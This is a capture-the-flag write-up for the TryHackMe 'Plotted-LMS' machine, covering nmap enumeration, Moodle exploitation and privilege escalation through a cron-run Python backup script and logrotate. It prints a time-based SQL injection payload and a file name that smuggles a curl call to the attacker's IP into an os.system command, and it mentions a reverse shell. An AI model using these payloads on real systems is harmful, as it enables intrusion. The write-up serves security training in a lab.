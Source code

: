 ```yaml
---
title: Plotted-LMS -- Writeup
date: 2022-04-13
categories: [TryHackMe, Hard]
tags: [tryhackme, ctf, moodle, cron, logrotten]     # TAG names should always be lowercase
img_path: /assets/img/tryhackme/plotted-lms/
---
```


# Summary -
Hard rated TryHackMe machine containing several rabbit holes(Rickrolls) and a vulnerable or let's say badly configured moodle server which can be used to gain initial access. After then for privilege escalation we have to abuse cronjob executing a certain python script and then logrotten thingy(which is also running kinda like cronjob). Overall, its a fun and well made room.

# Enumeration -
Nmap, here we go...
### nmap -
```bash
# Nmap 7.92 scan initiated Sat Apr 23 05:05:53 2022 as: nmap -T4 -p- -A -oA port_scan 10.10.151.133
Nmap scan report for 10.10.151.133
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 67:af:92:c1:f0:9f:8a:18:62:8d:bf:ba:c4:58:8d:52 (RSA)
|   256 03:ca:42:df:ef:4b:3e:e6:91:0e:b2:bc:b4:42:1e:d1 (ECDSA)
|_  256 f1:ed:8a:8d:e4:87:d8:c7:69:c1:ca:2b:a4:dc:0c:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
873/tcp  open  http    Apache httpd 2.4.52 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.52 (Debian)
8820/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
9020/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/23%OT=22%CT=1%CU=37643%PV=Y%DS=2%DC=T%G=Y%TM=6263C2A
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O
OS:3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   137.08 ms 10.11.0.1
2   137.35 ms 10.10.151.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 23 05:11:08 2022 -- 1 IP address (1 host up) scanned in 315.62 seconds
```

Uh... A lot of http servers. Sigh... Dirbust here we go...

##### port 80 -
Nothing much of interest here.

##### port 873 -
Found a hidden online rail management system on this web server at /rail directory. And it is vulnearable to SQLi but no luck so far escalation it.

```sql
1') AND (SELECT 9635 FROM (SELECT(SLEEP(5)))BtqU) AND ('alGi'='alGi
```

![](Pasted image 20220423155331.png)

![](Pasted image 20220423155351.png)

##### port 8820 -

Found learning management system at /learn.

![](Pasted image 20220423155530.png)

![](Pasted image 20220423205824.png)



##### port 9920 -

Found moodle running at /moodle which is interesting. Maybe this is the way. Let's see... :D

![](Pasted image 20220423155645.png)

While registering, it is saying only email address with certain domains are allowed. So, create account with certain domain.

![](Pasted image 20220423155901.png))

To grab moodle version, we can use moodlescan.

![](Pasted image 20220423160526.png)

And its Moodle v3.9.0-beta

# Exploitation -

After logging in, we can see that we can enroll as a teacher. Well, that's a good sign. Iirc there was a certain moodle exploit to escalate privilege to manager and then get rce. So, let's search.

![](Pasted image 20220425203630.png)

[https://book.hacktricks.xyz/pentesting/pentesting-web/moodle](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle) - I always go to this site if I found something unfamiliar.

[https://www.youtube.com/watch?v=BkEInFI4oIU](https://www.youtube.com/watch?v=BkEInFI4oIU) - this video shows the poc nicely.

![](Pasted image 20220423163134.png)
![](Pasted image 20220425203911.png)

And with that, we can now try to exploit it.

![](Pasted image 20220423191903.png)

# Post Exploitation -
### www-data to plot_admin -

![](Pasted image 20220423192806.png)

moodle_user:<redacted> (Don't worry this creds doesn't matter...)

![](Pasted image 20220423203441.png)

Tried both but didn't work...

![](Pasted image 20220423203507.png)
_Above crontab linpeas output will come in handy in a later time... :D_

![](Pasted image 20220423203609.png)

![](Pasted image 20220423205939.png)

Ffs... Damn this box...

```python
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```

So, its probably this script... Sigh... (Remember the crontab output from linpeas?)

Let's analyse it.

So yeah, I know I'm bad at coding so had to do a lot of testing and stuff...

First, I grabbed backup.py on my local machine and played with it until I manage to exploit it.

We cannot do anything about the first os.system call but can abuse the second one.

```bash
" || curl 10.11.49.212 "
```

If we create a filed named like above and run the script we can see the connection approaching to our server.

![](Pasted image 20220424124719.png)

Okay, so next part is pretty tough as well.

Since, we know backup.py is executed by plot_admin as a cron job after some time we need to abuse that but how?

Okay, I lied it wasn't that hard, I just had trouble thinking about it. I used python3 one liner reverse shell and created a file just like our last curl file. Hopefully, will get a shell now.

**P.S. To avoid shell escaping, just create a python revshell using gui file manages and then use terminal to list it and grab the name. Ezpz eh?**

![](Pasted image 20220424125024.png)

And finally!!! Its been 84 years... XD

### plot_admin to root -
Hmm.. A logrotate.timer but its empty when opened.
![](Pasted image 20220424161419.png)

There was a rsync cronjob running as root as well. Let's use pspy to get more info...

![](Pasted image 20220425171611.png)

Hmm... Interesting...
[https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation](https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation)

![](Pasted image 20220425201939.png)

Exploit is kinda funky, may or may not work the first time or several or maybe you will need to reset a machine. So, don't give up... o7

![](Pasted image 20220425202000.png)
_Finally root..._